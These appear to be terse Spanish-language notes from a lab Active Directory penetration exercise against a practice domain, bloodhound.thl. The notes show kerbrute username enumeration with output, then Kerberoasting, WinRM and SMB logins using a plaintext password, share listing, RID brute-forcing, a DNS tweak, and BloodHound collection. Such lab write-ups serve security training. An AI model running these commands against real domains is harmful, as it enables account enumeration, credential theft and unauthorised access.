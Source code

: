 

└─$  kerbrute userenum --dc bloodhound.thl -d bloodhound.thl usuarios_limpios.txt   

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 09/05/25 - Ronnie Flathers @ropnop

2025/09/05 16:18:01 >  Using KDC(s):
2025/09/05 16:18:01 >   bloodhound.thl:88

2025/09/05 16:18:01 >  [+] VALID USERNAME:       robert.williams@bloodhound.thl
2025/09/05 16:18:01 >  [+] VALID USERNAME:       mary.johnson@bloodhound.thl
2025/09/05 16:18:01 >  [+] VALID USERNAME:       john.smith@bloodhound.thl
2025/09/05 16:18:01 >  [+] VALID USERNAME:       patricia.brown@bloodhound.thl
2025/09/05 16:18:01 >  [+] VALID USERNAME:       Administrador@bloodhound.thl
2025/09/05 16:18:01 >  [+] VALID USERNAME:       michael.jones@bloodhound.thl
2025/09/05 16:18:01 >  Done! Tested 8 usernames (6 valid) in 0.002 seconds
                                                                                                                                                                                                                                                            

------------------------------------------------------------------------


impacket-GetUserSPNs bloodhound.thl/john.smith:'Rk436\#Z4&' -request


netexec winrm -i 192.168.56.105 -u john.smith -p 'Rk436\#Z4&'



smbmap -H  192.168.56.105 -u john.smith -p 'Rk436\#Z4&'


netexec smb  192.168.56.105 -u john.smith -p 'Rk436\#Z4&' --shares



netexec smb 192.168.56.105  -u 'john.smith' -p 'Rk436\#Z4&' --rid-brute | grep SidTypeUser

------------------------------------------------------------------------

sudo apt-get install dnsmasq
                                                                                                                                                                                                                                                           
nano /etc/dnsmasq.conf    

address=/ELEVATOR.bloodhound.thl/192.168.56.103

 systemctl restart dnsmasq  
------------------------------------------------------------------------



bloodhound-python -u 'john.smith' -p 'Rk436\#Z4&' -d bloodhound.thl -dc ELEVATOR.bloodhound.thl -ns 127.0.0.1 --disable-autogc -c All --zip



------------------------------------------------------------------------


# Agregamos al usuario john.smith al grupo de FINANZAS
